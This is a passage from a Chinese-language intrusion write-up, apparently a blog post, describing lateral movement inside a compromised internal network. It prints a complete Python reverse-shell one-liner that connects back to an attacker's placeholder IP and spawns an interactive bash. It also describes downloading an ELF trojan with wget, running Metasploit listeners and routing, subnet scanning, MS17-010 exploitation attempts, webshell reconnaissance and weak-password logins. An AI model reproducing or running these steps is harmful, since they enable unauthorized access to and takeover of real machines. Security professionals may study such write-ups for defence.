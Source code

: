 ## 内网初探：

为了方便，用python先弹一个shell回来

```
python -c
'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("xxx.xxx.xxx.xxx",port));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);'
```

[![](https://p3.ssl.qhimg.com/t01de172a45368ae299.png)](https://p3.ssl.qhimg.com/t01de172a45368ae299.png)

接下来上msf，既然可以执行命令了，那就python起一个http 然后wget下来一个elf，生成木马 。

[![](https://p4.ssl.qhimg.com/t013fff0a45679a22db.png)](https://p4.ssl.qhimg.com/t013fff0a45679a22db.png)

Msf起监听，并执行弹shell，由于忘记截图，只剩下添加路由处

[![](https://p3.ssl.qhimg.com/t016c3bdda0c14c502f.png)](https://p3.ssl.qhimg.com/t016c3bdda0c14c502f.png)

扫描一下同网段机器，数量较多这里只截取一部分。

[![](https://p1.ssl.qhimg.com/t016e29d49108708ce0.png)](https://p1.ssl.qhimg.com/t016e29d49108708ce0.png)

[![](https://p4.ssl.qhimg.com/t01dea7cef63b3f12d3.png)](https://p4.ssl.qhimg.com/t01dea7cef63b3f12d3.png)

[![](https://p0.ssl.qhimg.com/t01f39e1cca3c16a0fd.png)](https://p0.ssl.qhimg.com/t01f39e1cca3c16a0fd.png)

[![](https://p5.ssl.qhimg.com/t010f17bab529a9ee4b.png)](https://p5.ssl.qhimg.com/t010f17bab529a9ee4b.png)

进入内网，按照惯例先来一波ms17-010开路看看，发现一台存在漏洞，就在我认为可以顺利拿下shell的时候，我发现事情并不简单，利用msf的exp模块没有成功，由于没有成功这个点暂时搁置，去看看其他机器有没有什么可利用的服务，回到webshell上做信息收集发现了数据库文件。

[![](https://p5.ssl.qhimg.com/t0122191468a8a9d11b.png)](https://p5.ssl.qhimg.com/t0122191468a8a9d11b.png)

尝试连接，结果连接失败。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)]()[![](https://p5.ssl.qhimg.com/t014c9db72464ac9978.png)](https://p5.ssl.qhimg.com/t014c9db72464ac9978.png)

在其他机器上的web，弱口令进到后台，也没什么可利用点。

[![](https://p3.ssl.qhimg.com/t01e602c997289ba9e8.png)](https://p3.ssl.qhimg.com/t01e602c997289ba9e8.png)
